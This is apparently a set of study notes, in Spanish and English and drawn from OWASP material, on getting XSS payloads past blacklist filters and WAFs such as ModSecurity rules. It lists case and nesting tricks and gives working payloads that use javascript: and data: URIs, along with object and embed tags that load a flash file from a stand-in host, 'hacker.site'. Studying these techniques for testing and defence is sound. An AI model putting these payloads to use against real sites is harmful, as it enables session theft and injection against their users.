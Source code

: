 # XSS Filter Evasion and WAF Bypassing

```
https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet

http://html5sec.org/

```

* Common scenarios

1. El vector XSS está bloqueado por la aplicación o algo más
2. El vector XSS se desinfecta
3. El vector XSS es filtrado o bloqueado por el navegador

## Bypassing Blackliting Filters

Es el más común. Su objetivo es detectar patrones específicos y prevenir comportamientos maliciosos.

### Inject Script Code

```js
<script>

# The <script> tag is the primary method which can be used to execute client-side scripting code such as javascript.
```

### Bypassing Weak script Tag Banning

```js
- Upper and Lower-case characters
- Upper and Lower-case without closing tag
- Random string after the tag name
- Newline after the tag name
- Nested tags
- NULL byte (IE up to v9)
# examples in images
```

## ModSecurity > Script Tag Based XSS Vectors Rule

Hay varias alternativas en las que es posible ejecutar nuestro código, tales como diferentes etiquetas HTML y manejadores de eventos relacionados.

### Beyond script Tag... Using HTML Attributes

```js
<a href="javascript:alert(1)">show</a>
<a href="data:text/html;base64,<alert(1) encoded>"show</a>
<form action="javascript:alert(1)"><button>send</button></form>
<form id=x></form><button form="x" formaction="javascript:alert(1)">send</button>
<object data="javascript:alert(1)">
<object data="data:text/html;base64, <alert(1) encoded>">

# https://github.com/evilcos/xss.swf
<object data="//hacker.site/xss.swf">
<embed code="//hacker.site/xss.swf" allowscriptaccess=always>
```
